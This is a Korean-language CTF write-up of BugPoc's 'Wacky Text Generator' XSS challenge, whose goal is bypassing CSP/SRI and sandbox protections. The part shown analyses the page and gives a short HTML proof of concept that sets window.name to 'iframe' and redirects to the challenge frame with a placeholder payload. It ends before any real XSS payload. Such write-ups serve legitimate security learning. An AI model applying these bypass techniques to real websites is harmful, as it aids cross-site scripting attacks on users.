 ```yaml
---
layout: post
date: 2021-06-10 00:00:11
title: "Wacky Text Generator Write Up"
categories: CTF
tags: [XSS]
author:
  - Jeongwon Jo

---
```

## Descriptions

[BugPoc](https://bugpoc.com/)에서 만든 XSS Challenge이고, 문제의 목적은 CSP/SRI 및 Sandbox를 우회하고, XSS를 트리거 하는 것이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/1.png?raw=true)

위 사진을 보면 Wacky Text를 입력해주면 해당 값이 Dom 내부에 삽입되는 것을 볼 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/2.png?raw=true)

콘솔창을 확인해 보니 `iframe`을 이용해서 `/frame.html`의 돔을 끌어와서 사용하는 것을 볼 수 있다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/3.png?raw=true)

그래서 `/frame.html`로 접근을 해보니 아니나 다를까 Error 페이지가 발생하는 것 이었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/4.png?raw=true)

코드를 확인해 보니 190 line에서 window.name의 값이 "iframe"인 지 아닌 지를 검증하고 있고, window.name의 값이 "iframe"이 아니라면 else 문에 의해서 Error 페이지가 출력이 되는 것 이다.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>XSS Poc : CSP/SRI/Sandbox Bypass</title>
    </head>
    <body>
        <script>
            const exploit = function (){
                const payload = 'pocas';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }
        </script>

       <h3>If you click the button below.</h3>
        <input type='button' onclick= 'exploit()' value='Trigger'>
    </body>
</html>
```
그래서 위와 같이 window.name의 값으로 "iframe"을 주고, window.location 메서드를 이용해서 라디아렉트를 시켜주니 window.name 검증은 쉽게 해결 할 수 있었다.
